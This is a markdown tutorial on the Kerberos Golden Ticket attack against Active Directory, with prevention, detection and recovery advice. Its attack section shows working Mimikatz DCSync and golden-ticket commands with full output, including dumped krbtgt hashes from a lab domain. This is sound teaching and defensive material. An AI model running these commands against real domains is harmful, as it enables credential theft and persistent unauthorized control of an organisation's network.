

## Introduction

The **Kerberos Golden Ticket** is an attack in which threat agents can **create tickets** for any user in the Domain, therefore effectively acting as a Domain Controller.

When a Domain is created, the unique user account **krbtgt** is created by default. **krbtgt** is a disabled account that cannot be deleted, renamed, or enabled. The Domain Controller's KDC service will **use the password of krbtgt** to derive a key with which it signs all Kerberos tickets. This password's hash is the most trusted object in the entire Domain because it is how objects guarantee that the environment's Domain issued Kerberos tickets.

Therefore, any user possessing the **password's hash of krbtgt** can create valid Kerberos TGTs. Because **krbtgt** signs them, forged TGTs are considered valid tickets within an environment. Previously, it was even possible to create TGTs for inexistent users and assign any privileges to their accounts.

This attack provides means for **elevated persistence** in the domain. It occurs after an adversary has gained **Domain Admin** (or similar) privileges.

## Attack Path

**Golden Tickets** are forged **Ticket-Granting Tickets (TGTs)**, also known as **authentication tickets**. Attackers bypass the first and second stages and directly initiate communication with the **Key Distribution Center (KDC)** from the third stage. Since a Golden Ticket is a forged TGT, attackers send it to the Domain Controller as part of the `TGS-REQ` to obtain a **service ticket**.

<div class="mx-auto"></div>

The requirements for forging TGT:

- **Domain Name**
- **SID**
- **Domain KRBTGT Account NTLM password hash**
- **Impersonate user**

Let's assume we've gained access to an account, and we need to perform a **DCSync attack** to retrieve the NTLM hash of the **krbtgt** account.

```powershell

C:\Mimikatz>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /domain:eagle.local /user:krbtgt
[DC] 'eagle.local' will be the domain
[DC] 'DC1.eagle.local' will be the DC server
[DC] 'krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 07/08/2022 11.26.54
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: db0d0630064747072a7da3f7c3b4069e
    ntlm- 0: db0d0630064747072a7da3f7c3b4069e
    lm  - 0: f298134aa1b3627f4b162df101be7ef9

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : b21cfadaca7a3ab774f0b4aea0d7797f

* Primary:Kerberos-Newer-Keys *
    Default Salt : EAGLE.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1335dd3a999cacbae9164555c30f71c568fbaf9c3aa83c4563d25363523d1efc
      aes128_hmac       (4096) : 8ca6bbd37b3bfb692a3cfaf68c579e64
      des_cbc_md5       (4096) : 580229010b15b52f

* Primary:Kerberos *
    Default Salt : EAGLE.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 580229010b15b52f
```

Next, we will use the `Get-DomainSID` function from [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) to obtain the SID value of the Domain.

```powershell
PS C:\Users\bob\Downloads> powershell -exec bypass
PS C:\Users\bob\Downloads> . .\PowerView.ps1
PS C:\Users\bob\Downloads> Get-DomainSID
S-1-5-21-1518138621-4282902758-752445584
```

Now that we have all the necessary information, we can use **Mimikatz** to create a ticket for the Administrator account.

```powershell
C:\Mimikatz>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # kerberos::golden /domain:eagle.local /sid:S-1-5-21-1518138621-4282902758-752445584 /rc4:db0d0630064747072a7da3f7c3b4069e /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt

User      : Administrator
Domain    : eagle.local (EAGLE)
SID       : S-1-5-21-1518138621-4282902758-752445584
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: db0d0630064747072a7da3f7c3b4069e - rc4_hmac_nt
Lifetime  : 13/10/2022 06.28.43 ; 13/10/2022 06.36.43 ; 13/10/2022 06.35.43
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ eagle.local' successfully submitted for current session
```

> - The `/ptt` argument makes Mimikatz pass the ticket into the current session.
> - The `/renewmax` argument is the maximum number of days the ticket can be renewed.
> - The `/endin` argument is end-of-life for the ticket.

There are many ways and tools that can be used to carry out this attack and this is just a basic example.

## Prevention

Preventing the creation of forged tickets is difficult as the **KDC generates valid tickets using the same procedure**. Therefore, once an attacker has all the required information, they can forge a ticket. Nonetheless, there are a few things we can and should do:

- Block privileged users from authenticating to any device.
- Periodically reset the password of the **krbtgt** account
- Utilizing Microsoft's script for changing the password of **krbtgt** : [KrbtgtKeys.ps1](https://github.com/microsoft/New-KrbtgtKeys.ps1)

## Detection

**User behavior correlation:**

> Build a **normal profile** for each user (typical login location/IP/subnet, workstation, and time). Alert on deviations, especially for privileged accounts.

**“You won’t see the ticket being forged on the DC” — detect the usage**:

> Domain Controllers typically do not log the act of forging a Golden Ticket (it’s created on the compromised host). Detect when the attacker uses it: look for successful logons (`4624`) to other systems that originate from the compromised machine.

**Kerberos flow anomaly: TGS without prior TGT**

> Another signal is a TGS request for a user without a preceding TGT request in the expected window. This is often noisy due to high ticket volume, so scope it to privileged users, sensitive hosts, and unusual services.

## Recovery

If an Active Directory forest is **compromised**, you should reset all users’ passwords and revoke certificates to remove any stolen credentials. For Kerberos, you must **reset the krbtgt account password twice** because its password history is s2 (DCs keep the two most recent keys). Resetting it twice removes the old key from history, preventing attackers from using previously forged Golden Tickets. The two resets should be at least **~10 hours apart** (maximum TGT lifetime).

## Reference

- **[StationX - Kerberos Golden Ticket Attack Explained](https://www.stationx.net/golden-ticket-attack/)** - Comprehensive guide explaining the mechanics of Kerberos Golden Ticket attacks, including prerequisites and step-by-step exploitation techniques.
- **[HackingArticles - Domain Persistence: Golden Ticket Attack](https://www.hackingarticles.in/domain-persistence-golden-ticket-attack/)** - Detailed article on using Golden Tickets for achieving long-term domain persistence and maintaining unauthorized access.
